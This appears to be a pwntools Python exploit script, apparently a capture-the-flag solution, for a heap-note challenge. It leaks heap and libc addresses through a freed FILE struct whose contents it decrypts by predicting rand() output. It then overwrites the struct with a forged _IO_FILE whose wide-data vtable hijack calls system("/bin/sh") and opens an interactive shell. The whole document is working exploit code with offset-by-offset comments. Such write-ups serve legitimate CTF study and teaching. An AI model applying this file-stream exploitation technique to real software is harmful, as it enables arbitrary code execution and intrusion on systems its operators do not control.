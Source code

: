 ```py
delete_chonc(1)

create_chonc(0x28)
view_chonc(1)

io.recvuntil(b': ')
heap_base = unpack(io.recv(8)) << 12
info("heap base : " + hex(heap_base))

create_chonc_file()
delete_chonc_file()

create_chonc(0x1d8) # get the freed file struct
view_chonc(2)

io.recvuntil(b': ')
file_data = io.recv(0x1d0) # sizeof(struct _IO_FILE)

# Now we want to decrypt the file with our random bypass

result = b''
for i in range(0, 0x1d0, 4):
    n = u32(file_data[i:i+4])
    libc_imp.rand()
    key = libc_imp.rand()
    n ^= key
    result += p32(n)

stderr = unpack(result[104:112]) # from _IO_FILE offsets to chain -> _IO_2_1_stderr_
libc.address = stderr - libc.sym._IO_2_1_stderr_ 

info("_IO_2_1_stderr_@GLIBC : " + hex(stderr))
info("libc base : " + hex(libc.address))

stream = heap_base + 0x2f0

fp = FileStructure()
fp.flags = unpack(b" /bin/sh")              # we need " " at the start so that flags & _IO_NO_WRITES = 0
fp._IO_read_ptr = 0                         # 0 by default, for clarity. This will ensure /bin/sh is null terminated
fp._lock = heap_base                        # we know that heap base starts with 0 so it's a valid lock
fp._IO_save_base = stream - 0x18            # so that _wide_data->vtable + 0x68 lands at fp->_IO_backup_base
fp._IO_backup_base = libc.sym.system        # allocbuf will land here calling system(fp)
fp._wide_data = stream - 0x98               # so that _wide_data->vtable lands at fp->_IO_save_base
fp.vtable = libc.sym.__io_vtables + 0x328   # this address + 0x38 will call _IO_wfile_overflow


# write our own file struct
edit_chonc(2, bytes(fp))
write_chonc_file() # trigger fwrite -> system("/bin/sh")

context.log_level = 'error'
io.interactive(prompt="shell> ")
io.close()
```

